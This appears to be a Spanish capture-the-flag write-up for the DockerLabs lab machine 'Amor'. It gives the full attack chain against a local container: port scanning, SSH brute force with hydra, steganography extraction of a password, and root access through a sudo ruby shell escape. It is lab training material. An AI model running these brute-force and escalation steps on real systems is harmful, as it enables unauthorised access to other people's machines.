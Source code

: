 # [Amor](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh amor.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).


## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que está abierto el puerto **22** y **80**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/8563720d-b839-447e-988d-bb80300a4b67)

<br>
<br>

## Página Web (Puerto 80)

Al ver que aloja un servidor web, nos dirigimos a él poniendo en el buscador la ip que en este caso sería `172.17.0.2`. Vemos que nos da varias vistas:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ce9ba3fe-f606-47cc-8e14-9323006440a0)

Como por ejemplo, que un usuario tiene una contraseña débil y que existen dos posible usuarios `Juan` y `Carlota`.

<br>
<br>

## Hydra / Medusa

Una vez conocemos los posibles usuarios haremos un ataque de fuerza bruta al servicio ssh usando hydra en primer lugar, usaremos el usuario juan `hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`. <br> 
`-h` ⮞ dirección IP de la máquina victima <br>
`-u` ⮞ nombre del posible usuario <br> 
`-P` ⮞ ruta del rockyou. Para descargar el diccionario [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

<br>

No encontraríamos nada, por lo que haremos fuerza bruta al otro usuario (Carlota) de la siguiente forma `hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`, en esta caso si que nos encontraría la contraseña:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dd0fa07f-95cd-4dfd-8661-ab1c4dcecc44)

 > Podríamos usar un archivo el cual contenga los nombre de usuarios, pero en esta caso tardaría más en encontrarnos la contraseña siempre y cuando pongamos primero al usuario juan.

<br>
<br>

## SSH (Puerto 22)

Una vez conocemos el usuario y su contraseña probamos a entrar a la máquina Amor con `ssh carlota@172.17.0.2`, y a continuación nos pedirá la contraseña. <br>

> Si te aparece un error como este [aquí](https://desarrolloweb.com/faq/solucionar-remote-host-identification-has-changed-al-hacer-ssh) puedes encontrar la solución. <br>![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/2128bd5f-33a2-4bb0-ac54-6555c7aa5817)

<br>
<br>

## Escalada de Privilegios

En este caso no será necesario el Tratamiento de la TTY con tan solo escribiendo bash ya tendremos una terminal cómoda. En todo caso el tratamiento sería así: <br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

<br>

Ejecutamos el comando `sudo -l` para ver que podemos ejecutar como sudo, pero no encontramos nada: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/59e0946c-7f69-430c-b586-a0ef4e31b6f0)

<br>

Al igual que si ejecutamos `find / -perm -4000 2>/dev/null` en búsqueda de permisos SUID no encontramos nada potencial para escalar privilegios. 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/e2862f75-c832-4f97-be42-175ef81ccdf6)

`/` ⮞ buscamos desde la raíz <br>
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores 

<br>

Si nos vamos a la siguiente ruta `/home/carlota/Desktop/fotos/vacaciones/imagen.jpg` dentro del directorio personal de **carlota** nos encontramos con una imagen, nos la llevamos a nuestra máquina de atacante montando un servidor http con python de la siguiente manera: `python3 -m http.server 555`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/c8c89ec2-e7a4-4532-a7f1-ff9757a29241)

<br>

Obtenemos dicha imagen, con el siguiente comando desde nuestra máquina de atacante `wget 172.17.0.2:555/imagen.jpg`
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/8f146058-f302-4061-9149-8d875a340341)

<br>
<br>

### Estenografía

Pasamos a analizar los metadatos de la imagen, para ver si tiene algo oculto, usaremos el siguiente comando: `steghide extract -sf imagen.jpg`, nos pedirá una passphrase pero le damos al enter, y obtendremos un archivo `secret.txt` el cual contendrá el siguiente contenido:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/bc96bdef-8057-447b-9f64-59837d284d5b)

<br>

Parece que tiene una cadena de texto en base64 por lo que pasaremos a decodificarla con el siguiente comando `cat secret.txt`, y obtendremos lo que parece una contraseña:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/f8ae1f7a-bed5-4212-81fa-812845870ba8)

<br>

Probamos a autenticarnos como oscar con el siguiente comando `su oscar` -> introducimos la contraseña y ya seremos oscar y escribimos `bash` para ejecutar una terminal de bash en ves de una sh:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/56d202b6-f64c-43cf-b580-ce4585832cbc)

<br>

Seguimos el mismo procedimiento de antes, ejecutando el comando `sudo -l` y los reporta lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d70b5646-7f76-4925-9d37-fad3361ff03e)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en ruby, y nos encontramos con lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/804e3fcd-5f15-44fa-8c3c-ed073e80517d)

<br>

Por lo cual ejecutaremos lo siguiente `sudo -u root ruby -e 'exec "/bin/bash"'`, y listo ya seremos root:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/1716e422-11bc-4ec8-a191-49db425e1f1b)
